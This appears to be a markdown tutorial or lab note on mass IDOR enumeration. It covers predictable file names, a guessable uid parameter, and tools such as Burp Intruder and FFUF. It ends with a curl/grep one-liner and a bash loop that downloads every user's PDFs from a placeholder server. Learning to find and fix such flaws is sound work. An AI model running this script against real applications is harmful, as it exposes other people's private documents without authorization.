 # Mass IDOR Enumeration
***
### Insecure Parameters
#### For instance a web application that identifies a logged-in user with the user id (object reference) `uid=1337`. Furthermore, it also implements a document storage that we can access through `/documents.php?uid=1337` and it sets the document names to a predictable naming pattern:
```html
/documents/Invoice_1_01_2024.pdf
/documents/Report_1_01_2024.pdf
```
#### When we find out that a file follows a naming patter, we may try and fuzz files for other users. These type of IDOR vulnerability is called **static file IDOR**.

#### Also by relying on the userid in the URL (`documents.php?uid=1337`) as a direct reference to that user records , we may be able to view other users' documents by simply changing the uid value. When a web application has a poor design , like the above one as it passes our **uid** in clear text as a direct reference, we could access the other users' records.

### Mass Enumeration
#### We can try manually accessing other user documents by changing the uid like (`uid=3, uid=4`) but this is not an efficient way to perform a enumeration in real work environments with hundreds or thousands of users. SO we may use tools such as **Burp Intruder** , **ZAP Fuzzer** or **FFUF** to retrieve all data or simply write a bash script to download all files.

#### Example of HTML source code to see how files may be stored:
```html
<li class='pure-tree_link'><a href='/documents/Invoice_1_01_2024.pdf' target='_blank'>Invoice</a></li>
<li class='pure-tree_link'><a href='/documents/Report_1_01_2024.pdf' target='_blank'>Report</a></li>
```

#### We may use **curl** to get the HTML code and **grep** with **regex** to only get the line containing the path to each file:
```shell
curl -s "http://SERVER_IP:PORT/documents.php?uid=3" | grep -oP "\/documents.*?.pdf"
```

#### Then we can build our bash script to get all files of each registered user
```bash
#!/bin/bash

url="http://SERVER_IP:PORT"

for i in {1..1337}; do
        for link in $(curl -s "$url/documents.php?uid=$i" | grep -oP "\/documents.*?.pdf"); do
                wget -q $url/$link
        done
done
```

